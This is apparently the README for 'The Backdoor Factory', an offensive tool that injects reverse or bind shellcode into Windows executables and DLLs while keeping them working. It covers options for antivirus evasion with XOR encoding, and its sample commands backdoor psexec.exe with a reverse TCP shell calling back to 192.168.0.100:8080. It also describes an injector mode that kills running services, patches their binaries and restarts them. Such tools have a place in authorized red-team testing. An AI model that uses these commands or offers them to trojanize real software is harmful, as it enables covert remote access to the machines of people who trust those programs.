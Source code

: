 ##The Backdoor Factory
Backdoors win32 PE files, to continue normal file execution (if the shellcode supports it), by patching the exe/dll directly.

Some executables have built in protections, as such this will not work on all PE files.  It is advisable that you test target PE files before deploying them to clients or using them in exercises.

Recently tested on all 32bit Sysinternal tools.

Usage: ./backdoor.py -h

Usage: backdoor.py [options]

Options:
  -h, --help            show this help message and exit

  -f FILE, --file=FILE  File to backdoor
  
  -i HOST, --hostip=HOST
                        IP of the C2 for reverse connections
  
  -p PORT, --port=PORT  The port to either connect back to for reverse shells
                        or to listen on for bind shells
  
  -o OUTPUT, --output-file=OUTPUT
                        The backdoor output file
  
  -s SHELL, --shell=SHELL
                        Payloads that are available for use.
  
  -n NSECTION, --section=NSECTION
                        New section name must be less than seven characters
  
  -c, --cave            The cave flag will find code caves that can be used
                        for stashing shellcode. This will print to all
                        the code caves of a specific size. The -l flag can be
                        use with this setting.
  
  -d DIR, --directory=DIR
                        This is the location of the files that you want to
                        backdoor. You can make a directory of file backdooring
                        faster by forcing the attaching of a codecave to the
                        exe by using the -a setting.
  
  -v, --verbose         For debug information output.
  
  -e ENCODER, --encoder=ENCODER
                        Encoders that can help with AV evasion.
  
  -l SHELL_LEN, --shell_length=SHELL_LEN
                        For use with -c to help find code caves of different
                        sizes
  
  -a, --add_new_section
                        Mandating that a new section be added to the exe
                        (better success) but less av avoidance
  
  -w, --change_access   This flag changes the section that houses the codecave
                        to RWE. Sometimes this is necessary. Enabled by
                        default. If disabled, the backdoor may fail.
  
  -j, --injector        This command turns the backdoor factory in a hunt and
                        shellcode inject type of mechinism. Edit the target
                        settings in the injector module.
  
  -u SUFFIX, --suffix=SUFFIX
                        For use with injector, places a suffix on the original
                        file for easy recovery


---
Features:

-After making a copy of the target file, the file copy will be patched directly.

-Finding all codecaves in an EXE/DLL.

-Injecting modified reverse/bind shells that allow continued execution after connection to the attacker.

-Modifying the PE/COFF header to add an additional section for all win32 executables/dlls, including those with an import table.

-Using the existing shellcode options, the ability to select PORT and HOST as connection options

-The ability to backdoor a directory of executables/dlls

-List all codecaves in the exe/dll

-Select the codecave in the exe/dll to backdoor, thereby not changing the filesize.

-Includes a simple XOR shellcode encoder.

---------------------------------------------
Sample Usage:

#Backdoor a exe/dll using an existing code cave:

./backdoor.py -f psexec.exe -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -e xor_encode 

The following caves can be used to inject code and possibly continue execution
use a number greater than the highest reference to add a code cave to the executable/dll
versus using an existing code cave.. Good luck:

1 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d2d5 End: 0x2d4d0; Cave Size: 507

2 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d4e9 End: 0x2d6d5; Cave Size: 492

3 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d6e3 End: 0x2d8d8; Cave Size: 501

4 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d8f1 End: 0x2dadd; Cave Size: 492

5 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dae7 End: 0x2dce0; Cave Size: 505

6 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dcf3 End: 0x2dee5; Cave Size: 498

7 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2defb End: 0x2e0ea; Cave Size: 495

8 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2e161 End: 0x2e390; Cave Size: 559

9 Section Name: .rsrc; Section Begin: 0x2f200 End: 0x5bc00; Cave begin: 0x2f578 End: 0x2f708; Cave Size: 400

10 Section Name: .rsrc; Section Begin: 0x2f200 End: 0x5bc00; Cave begin: 0x58a39 End: 0x58c68; Cave Size: 559

Enter your selection: 2

Using selection: 2

psexec.exe backdooring complete

File bd.psexec.exe is in current directory


---

#Backdoor an exe/dll by adding a code section:

./backdoor.py -f psexec.exe -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a -e xor_encode

Adding a new section to the exe/dll for shellcode injection

psexec.exe backdooring complete

File bd.psexec.exe is in current directory

---
#Backdoor a directory of exes:
./backdoor.py -d test/ -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a


...output too long for README...

---
#Hunt and backdoor: Injector
The injector module will look for target executables to backdoor on disk.  It will check to see if you have identified the target as a service, check to see if the process is running, kill the process and/or service, inject the executable with the shellcode, save the original file to either file.exe.old or another suffix of choice, and attempt to restart the process or service.  
Edit the python dictionary "list_of_targets" in the 'injector' module for targets of your choosing.

./backdoor.py -j -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a -u .moocowwow 
